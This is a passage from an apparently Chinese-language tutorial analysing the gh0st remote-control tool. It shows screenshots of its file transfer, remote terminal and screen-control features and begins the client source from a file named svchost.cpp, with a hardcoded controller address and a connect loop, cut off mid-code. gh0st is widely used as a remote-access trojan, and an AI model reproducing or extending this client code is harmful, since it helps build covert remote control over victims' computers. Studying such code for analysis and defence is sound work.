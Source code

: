 当然，控制端可以同时控制多个被控制端，我这里在本机也开了一个被控制端，所以界面上会显示两个连上来的主机信息。

我们选择其中一个主机，点击右键菜单中的某一项就可以进行具体的控制操作了：

![](http://www.hootina.org/github_easyserverdev/20181228132428.png)

下面截取一些控制画面：

**文件管理**

![](http://www.hootina.org/github_easyserverdev/20181228132623.png)



**文件管理**功能可以自由从控制端被控制来回传送和运行文件。



**远程终端**

![](http://www.hootina.org/github_easyserverdev/20181228132756.png)



**远程桌面**

![](http://www.hootina.org/github_easyserverdev/20181228132955.png)



当然，**远程桌面**功能不仅可以查看远程电脑当前正在操作的界面，同时还可以控制它的操作，在远程桌面窗口标题栏右键弹出菜单中选择【**控制屏幕**】即可，当然为了控制的流畅性，你可以自由选择被控制端传过来的图片质量，最高是 **32位真彩色**。

![](http://www.hootina.org/github_easyserverdev/20181228133523.png)



为了节省篇幅，其他功能就不一一截图了，有兴趣的读者可以自行探索。



### gh0st_client 源码分析

#### 程序主脉络

我们先来看下被控制端的代码基本逻辑（原始代码位于 **svchost.cpp** 中），简化后的脉络代码如下：

```
int main(int argc, char **argv)
{  
    // lpServiceName,在ServiceMain返回后就没有了
    TCHAR	strServiceName[200];
    lstrcpy(strServiceName, TEXT("clientService"));
    //一个随机的名字
    TCHAR	strKillEvent[60];
    HANDLE	hInstallMutex = NULL;
    if (!CKeyboardManager::MyFuncInitialization())
        return -1;

    // 告诉操作系统:如果没有找到CD/floppy disc,不要弹窗口吓人
    SetErrorMode(SEM_FAILCRITICALERRORS);
    //TCHAR	*lpszHost = TEXT("127.0.0.1");
    TCHAR	*lpszHost = TEXT("10.32.26.125");
    DWORD	dwPort = 8080;
    TCHAR	*lpszProxyHost = NULL;//这里就当做是上线密码了

    HANDLE	hEvent = NULL;

    CClientSocket socketClient;
    socketClient.bSendLogin = true;
    BYTE	bBreakError = NOT_CONNECT; // 断开连接的原因,初始化为还没有连接
    while (1)
    {
```